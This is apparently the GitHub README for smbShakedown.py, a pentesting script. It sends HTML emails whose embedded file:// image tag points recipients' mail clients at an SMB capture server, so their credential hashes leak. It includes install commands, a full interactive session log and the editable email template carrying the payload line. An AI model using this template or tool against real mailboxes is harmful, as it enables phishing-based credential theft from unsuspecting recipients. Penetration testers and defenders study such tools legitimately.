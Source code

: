 #smbShakedown.py
    Description: A simplified SMB Email Client Attack script used for pentests.
    Created by: Nick Sanzotta / @beamr
    Version: smbShakedown.py v 1.10252016.b
  
***  
Installation:

    git clone https://github.com/NickSanzotta/smbShakedown.git
    cd smbShakedown/
    python smbShakedown.py

***
Usage:

    1.Enter SMTP Server address:
    
    2.Enter SMTP Server credentials: 
    (anonymous connections not supported.)
    
    3.Configure "from" and "to" addresses:
    (TIP: For multiple addresses, enter a file or seperate with a comma)
    
    4.Enter SMBCapture Server IP address, so it can be placed in body of email:
    EX: <img src=file://127.0.0.1/image/foo.gif>
    
    5. Choose whether or not to launch Metasploit's SMB Capture server.

***
Example:
       
	External IP: 100.100.100.100
	Internal IP: 10.37.242.7
	
	
	Enter SMTP Server address[smtp.gmail.com]: 
	ENTERED: "smtp.gmail.com"
	
	Enter your SMTP Server Port[587]: 
	ENTERED: "587"
	
	Enter SMTP Server username[user@gmail.com]: user@gmail.com
	ENTERED: "user@gmail.com"
	
	Enter SMTP Server password: 
	
	
	Enter SMB Capture Server IP address[10.37.242.7]: 
	ENTERED:10.37.242.7
	
	Enter "from name":[Tester]
	ENTERED:Tester
	
	Enter "from address":[user@gmail.com]
	ENTERED:user@gmail.com
	
	Enter recipient(s) name[Client]: Client
	ENTERED:Client
	
	TIP: For multiple addresses, enter a file or seperate with a comma
	EX:/opt/emailAddresses.txt or user1@company.com,user2@company.com
	Enter recipient addresses[File or individual email(s)]): /opt/emailAddresses.txt
	ENTERED:/opt/emailAddresses.txt
	
	ENTERED:['user1@company.com', 'user2@company.com']
	
	Email Message Template Below:
	From: Tester <user@gmail.com>
	To: Client <['user1@company.com', 'user2@company.com']>
	MIME-Version: 1.0
	Content-type: text/html
	Subject: smbShakedown.py test.
	
	
	...
	<b>smbShakedown.py test message.</b>
	<br>
	<img src=file://100.100.100.100/image/foo.gif>
	
	Testing Connection to your SMTP Server...
	('SMTP Server Status: ', 250)
	Connection to SMTP Server is successful, would you like to send mail now?[yes]:yes
	ENTERED: "yes"
	
	Message(s) sent!
	no
	Launch Metasploit's SMB Capture module?[yes]:no
	ENTERED: "no"
	
	Ok, remember to setup your SMBCapture Server elsewhere. 


***        
To update email template modify the following in source:
Becareful not to remove the variables {0},{1},{2} and {3}

    ### EDIT: Email Message Template Below ###
	message = """From: {0} <{1}>
    To: {2}
    MIME-Version: 1.0
    Content-type: text/html
    Subject: smbShakedown.py test.


    ...
    <b>smbShakedown.py test message.</b>
    <br>
    <img src=file://{3}/image/foo.gif>
    """
    ##########################################################

***
To do:

	Add error handling.


